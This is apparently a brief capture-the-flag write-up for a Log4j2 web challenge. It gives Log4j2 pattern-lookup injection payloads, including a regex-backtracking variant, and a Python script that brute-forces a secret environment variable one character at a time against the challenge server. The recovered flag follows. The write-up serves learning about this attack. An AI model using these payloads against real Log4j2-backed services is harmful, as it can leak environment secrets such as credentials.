 ## Log4J2

![](attachments/Pasted%20image%2020220707095946.png)

```sh
%replace{S${env:FLAG}E}{^SCTF.something((((((((((((((((((((.)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*E$}{}


/%replace{${env:FLAG}}{^CTF.}{${sys:cmd}}
```

```python
import requests
from string import digits, ascii_letters

url = "https://log4j2-web.2022.ctfcompetition.com/"
flag = "^CTF."
coba = digits + ascii_letters + "#-_@."

data = {"text": "/%replace{${env:FLAG}}{"+flag+"}{${sys:cmd}}"}

headers={
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
}

while True:
    print(f"Flag saat ini: {flag}")
    for i in coba:
        print(f"Mencoba {i}...")
        current_flag = flag + i
        print(f"Mencoba {current_flag}...")
        data = {"text": "/%replace{${env:FLAG}}{"+current_flag+"}{${sys:cmd}}"}
        res = requests.post(url, headers=headers, data=data)
        if "Sensitive" in res.text:
            flag += i
            break
    
    if flag[-1] == ".":
        break
```


^CTF.and-you-thought-it-was-over-didnt-you.

https://www.adamsmith.haus/python/answers/how-to-make-a-list-of-the-alphabet-in-python
https://docs.python.org/3/library/string.html

